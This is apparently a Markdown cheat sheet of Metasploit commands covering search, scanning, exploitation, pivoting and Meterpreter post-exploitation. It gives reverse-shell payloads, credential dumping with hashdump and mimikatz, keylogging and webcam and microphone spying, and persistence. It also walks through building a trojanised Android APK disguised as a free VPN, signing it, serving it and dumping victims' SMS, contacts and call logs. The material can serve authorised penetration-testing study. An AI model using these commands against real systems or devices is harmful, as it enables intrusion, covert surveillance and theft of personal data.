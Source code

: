# MetaSploit

## Initialize
- Database settings: 
  - ```systemctl start postgresql```
  - ```msfdb init```
- Run
  - ```msfconsole```  
- Workspace
  - Create: ```workspace -a nasa``` 
  - Delete: ```workspace -d nsa```
  - Show: ```workspace```  
  - Go to a workspace: ``` workspace nasa``` 
- Session
  - ```sessions -l```
  - ```sessions -i 2```  
- Informaion of a module 
  - ```info```  

## Search
- Example
  - ```search type:exploit cve:2019```
  - ```search type:auxiliary cve:2019```
  - ```search platform:windows description:chrome```
  - ```search platform:android description:2019```
  - ```search platform:exploit description:samsung```
- Nmap
  - ```nmap -sV -oX output.xml 192.168.3.5```
  - ```searchsploit --nmap output.xml```

## Auxiliary
- Example
  - ```use  auxiliary/scanner/mongodb/mongodb_login```
  - ```set rhosts 192.168.1.0/24```
  - ```run```
- Web scanner path 
  - ```/usr/share/metasploit-framework/modules/auxiliary/scanner/http/```


## Exploit
- Change default payload
  - ```show payloads``` 
  - ```set payload windows/meterpreter/reverse_tcp```
- Change target
  - ```show targets```
  - ```set target 1```
- Add new exploit
  - Download exploit from *"exploit-db"* that contains *"This module requires metasploit"* in text & ```Class MetasploitModule``` in code
  - Add file to ```/root/.msf4/local```
  - Restart OS & Postgresql

## Meterprete
- Common
  - ```pwd``` & ```lpwd```
  - ```ls``` & ```lls```
  - ```download h.txt```
  - ```upload```
- Show SAM file
  - ```hashdump```
- Spy
  - ```record_mic -d 60```
  - ```webcam_snap```
  - ```screenshot```
  - ```arp```
  - ```netstat```
  - ```keyscan_start``` & ```keyscan_dump``` & ```keyscan_stop```
  - ```getuid```
  - ```sysinfo```
  - ```ipconfig```
- Mimikatz
  - ```load mimikatz```
  - ```help```
- Pcap
  - ```load sniffer```
  - ```help```
  - ```sniffer interfaces```
  - ```sniffer_start z packet_buffer 40```
  - ```sniffer_dump z test.pcap```
  - ```sniffer_stop```
- PE
  - ```getsystem```
- Process & Migrate
  - ```ps```
  - ```migrate 596```
    - 596 is PID of *service.exe* or *explorer.exe* - DLL Hijack for persistant

## Persistance
- ```run persistence -U -i 20 -p 80 -r 10.20.14.203```

## msfvenom (Android)
- Create malware
  - ```msfvenum -p android/meterpreter/reverse_tcp -e shikata-ga-nai lhost=192.168.1.18 lport=443 R > /var/www/html/vpnfree.apk``` 
  - ```Keytool -genkey -v -keystore nss.keystore -alias nss -keyalg RSA -keysize 2048 -validity 100000```
  - ```jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore nss.keystore /var/www/html/vpnfree.apk nss```
- Listen in Kali (msfconsole)
  - ```use exploit/multi/handler```
  - ```set payload android/meterpreter/reverse_tcp```
  - ```set lhost 192.168.1.18```
  - ```set lport 443```
  - ```run -j```
- Exploit
  - ```sessions -l```
  - ```sessions -i 1```
  - ```geolocate```
  - ```dump_sms```
  - ```dump_calllog```
  - ```dump_contacts```
  - ```record_mic -d 15```
  - ```Webcam_snap```
  - ```webcam_snap -h```
  - ```webcam_list```
  - ```webcam_stream 2```
  - ```send_sms -h```
  - ```app_list```
    - show mobile app's 
  - ```app_run```
    - run one of above app 
  - ```shell```
    - open mobile shell (convert meterpreter shell to os shell)
     
     
## Pivot
- On victim, find a network interface with a different address from current subnet with ```ifconfig```
- Create a route between hacker and new victim
  - ```use post/windows/manage/autoroute```
  - ```set SESSION 1```
  - ```set SUBNET 10.20.15.0```
  - ```exploit```
- Connect to new victim
  - ```use exploit/multi/samba/usermap_script```
  - ```set RHOST 10.20.15.4```
  - ```set PAYLOAD cmd/unix/bind_netcat```
  - ```exploit```


